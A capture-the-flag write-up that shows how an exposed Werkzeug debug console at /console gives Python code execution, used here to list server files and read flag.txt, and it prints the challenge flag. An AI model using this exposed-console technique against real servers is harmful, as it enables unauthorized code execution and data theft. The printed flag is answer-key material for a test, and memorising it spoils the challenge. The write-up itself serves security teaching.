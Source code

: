 # Spy Vs Spy
Author: [gallifrey](https://github.com/gall1frey)

# Challenge

```
Want to check out the new Ladybug Cartoon? It's still in production, so feel free to send in suggestions!

Connect with one instance below:
http://one.jh2i.com:50018
```

# Solution
There was a contact page on the site, where I first spent a lot of time, but that 
wasn't the way to go.
The next obvious place was the search bar.
I tried searching random text and took a look at the request headers and response headers.

There, I found something interesting:

![](header.png)

The server is running werkzeug.
On googling stuff about werkzeug, I found that the debugging console is located at ```/console``` 
unless it is explicitly turned off.
Turns out it wasn't

![](console.png)

From here, I can use python to get the flag from the flag.txt file present on the server

```python

[console ready]
>>> from os import listdir
>>> from os.path import isfile, join
>>> files = [f for f in listdir('./') if isfile(join('./', f))]
>>> print(files)
['flag.txt', 'main.py', 'requirements.txt']

f = open('flag.txt','r').read()
>>> print(f)
flag{weurkzerg_the_worst_kind_of_debug}

```

Flag is
```
flag{weurkzerg_the_worst_kind_of_debug}
```
